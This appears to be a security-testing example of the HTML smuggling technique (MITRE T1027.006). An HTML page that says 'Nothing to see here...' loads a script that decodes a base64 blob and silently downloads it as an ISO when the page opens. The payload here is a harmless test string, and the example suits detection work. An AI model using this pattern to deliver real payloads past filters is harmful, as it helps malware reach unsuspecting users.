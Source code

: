 Create an html page to include a javascript file to have an embedded iso downloaded

index.html file
```html
<html>
    <head>
        <title>T1027.006 - HTML Smuggling</title>
    </head>
    <body>
        <p>Nothing to see here...</p>
        <script type"text/javascript" src="my.js"></script>
    </body>
</html>
```

my.js file that holds the base64 encoded file
```javascript
function convertFromBase64(base64) {
	var binary_string = window.atob(base64);
	var len = binary_string.length;
	var bytes = new Uint8Array( len );
	for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
	return bytes.buffer;
}

var file ='dGVzdGluZwo=';
var data = convertFromBase64(file);
var blob = new Blob([data], {type: 'octet/stream'});
var fileName = 'FeelTheBurn.iso';
var a = document.createElement('a');
var url = window.URL.createObjectURL(blob);
document.body.appendChild(a);
a.style = 'display: none';
a.href = url;
a.download = fileName;
a.click();
window.URL.revokeObjectURL(url);
```